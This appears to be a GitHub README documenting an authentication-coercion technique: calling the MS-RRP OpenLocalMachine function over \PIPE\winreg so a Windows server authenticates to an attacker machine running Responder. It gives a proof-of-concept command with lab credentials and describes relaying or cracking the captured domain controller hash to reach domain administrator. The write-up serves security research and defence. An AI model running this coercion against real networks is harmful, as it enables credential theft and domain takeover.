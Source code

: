 # MS-RRP - Remote call to OpenLocalMachine (opnum 2)

## Summary

+ **Protocol**: [[MS-RRP]: Windows Remote Registry Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78)

+ **Protocol UUID**: 338cd001-2244-31f1-aaaa-900038001003

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\PIPE\winreg`

+ **Function name**: [`OpenLocalMachine`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/6cef29ae-21ba-423f-9158-05145ac80a5b)

+ **Function operation number**: `2`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\winreg` and bind to the desired [`MS-RRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78) protocol (with uuid `338cd001-2244-31f1-aaaa-900038001003` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-RRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\winreg` This pipe is connected to the protocol [[MS-RRP]: Windows Remote Registry Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78) and allows to call RPC functions of this protocol. We will then call the remote [`OpenLocalMachine`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/6cef29ae-21ba-423f-9158-05145ac80a5b) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
OpenLocalMachine('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
error_status_t OpenLocalMachine(
   [in, unique] PREGISTRY_SERVER_NAME ServerName,
   [in] REGSAM samDesired,
   [out] PRPC_HKEY phKey
 );
```

## References

+ Documentation of protocol [MS-RRP]: Windows Remote Registry Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78

+ Documentation of function `OpenLocalMachine`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/6cef29ae-21ba-423f-9158-05145ac80a5b